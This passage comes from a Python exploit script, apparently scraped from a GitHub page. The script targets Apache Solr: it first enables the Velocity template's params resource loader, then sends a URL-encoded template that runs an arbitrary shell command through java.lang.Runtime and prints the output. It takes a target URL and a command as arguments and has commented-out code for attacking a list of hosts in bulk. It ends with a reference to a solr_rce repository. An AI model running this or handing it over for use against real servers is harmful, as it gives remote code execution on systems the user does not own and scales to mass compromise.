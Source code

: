            "paramsresource.loader.enabled": "true"
          }
        }'''
        proxies = {"http":"http://127.0.0.1:8080"}
        r = requests.post(core_name_url,headers=headers,data=payload)
        # r = requests.post(core_name_url,headers=headers,data=payload,proxies=proxies)
        if r.status_code == 200 and 'responseHeader' in r.content:
            print "[+] maybe enable Successful!"
            exp_url = core_name_url[:-7]
            cmd = 'whoami'
            cmd = sys.argv[2]

            send_exp(exp_url,cmd)
        else:
            print "[+] Enable Fail!\n"
    def send_exp(exp_url,cmd):
        exp_url = exp_url + r"/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + r"%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
        proxies = {"http":"http://127.0.0.1:8080"}
        r = requests.get(exp_url)
        # r = requests.get(exp_url,proxies=proxies)
        if r.status_code == 400 or r.status_code == 500  or r.status_code ==200 and len(r.content) >0:
            print ">>> [+] Exp Send Successful! <<<"
            print "____________________________________________________________"
            print '\n',exp_url,'\n'
            print '>>>>>>>\n',r.content
        else:
            print "[+] EXP No Send Successful!\n"
    if __name__ == '__main__':
        if len(sys.argv) != 3:
            sys.exit("\n [+] Usage:  python %s http://x.x.x.x:8983  command\n" % sys.argv[0])
        else:
            # url = "http://192.168.5.86:8983"
            url = sys.argv[1]
            get_code_name(url)
        
            # 批量
            # f = open('url.txt','rb')
            # for i in f.readlines():
            #     url = i.split('\r\n')[0]
            #     get_code_name(url)

参考链接
--------

> https://github.com/jas502n/solr\_rce
